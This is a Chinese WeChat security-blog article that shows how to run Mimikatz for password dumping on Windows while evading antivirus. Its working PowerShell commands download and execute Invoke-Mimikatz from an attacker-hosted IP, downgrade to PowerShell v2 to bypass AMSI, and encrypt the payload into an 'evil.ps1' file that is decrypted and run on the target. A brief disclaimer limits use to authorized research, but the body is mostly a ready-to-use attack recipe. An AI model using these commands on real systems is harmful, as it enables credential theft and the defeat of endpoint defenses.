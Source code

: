 ##  powershell免杀抓密码姿势

原创 tubai  [ 花指令安全实验室 ](javascript:void\(0\);)

**花指令安全实验室** ![]()

微信号 junk-code

功能介绍 专注于红蓝安全攻防研究的优质平台

____

__

收录于话题

  
前言：  
今天给大家分享两个利用powershell来bypass杀软抓密码技巧，亲测目前不杀。  
注：本号首发在了土司 https://www.t00ls.net/thread-62167-1-1.html  
一.

  

利用powershell v2绕过amsi抓windows密码（前提是win10机器需要.net3.0以上）

当我们实用原始的powershell执行经典的抓密码发现，是被amsi阻止的  

  * 

    
    
    powershell -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://192.168.52.134:6688/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805110810.png)  

  

此时我们利用降维攻击，强制使用PowerShell v2绕过 amsi，因为版本2没有支持AMSI的必要内部挂钩  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805110812.png)  

  

可以看到成功绕过了amsi的检测执行成功mimikatz抓到了密码！

二.

使用Out-EncryptedScript加密免杀抓取密码（亲测目前可绕过某绒和某60）

Out-EncryptedScript是Powersploit中提供工具的一种，他是用来进行加密处理的脚本，首先我们将Out-
EncryptedScript.ps1与Invoke-Mimikatz.ps1放到同一目录下  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805110813.png)

  

依次执行如下命令  

  *   *   * 

    
    
    powershell.exeImport-Module .\Out-EncryptedScript.ps1Out-EncryptedScript -ScriptPath .\Invoke-Mimikatz.ps1 -Password tubai -Salt 123456

  
  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805110814.png)  

  

目录下便会自动生成evil.ps1文件，上传到目标机器即可  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805110813.png)  

  

在目标机器依次执行如下命令  

  *   *   *   *   *   *   * 

    
    
    powershell.exeIEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/mimikatz/Out-EncryptedScript.ps1")  注：由于https://raw.githubusercontent.com/不稳地，我本人是放在自己的阿里云上的。[String] $cmd = Get-Content .\evil.ps1Invoke-Expression $cmd$decrypted = de tubai 123456Invoke-Expression $decryptedInvoke-Mimikatz

  
  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805110815.png)  

如下，便成功绕过了杀软，成功的抓到了密码  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805110816.png)  

  

三

  

总结：

绕过AV的方式层出不穷，powershell在内网渗透方面利用的方式非常多，远远不止免杀与信息收集，希望大家能在授权的情况下，玩转自己的绕过思路，都能总结出自己的一些bypass小技巧！  

声明:文章初衷仅为攻防研究学习交流之用，严禁利用相关技术去从事一切未经合法授权的入侵攻击破坏活动，因此所产生的一切不良后果与本文作者及该公众号无关

若各位师傅有更多姿势，或想与我一起交流学习，可加我VX：  

‍‍‍![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805110818.png)  

分享收藏点赞在看

  

  
  

  

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

powershell免杀抓密码姿势

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()

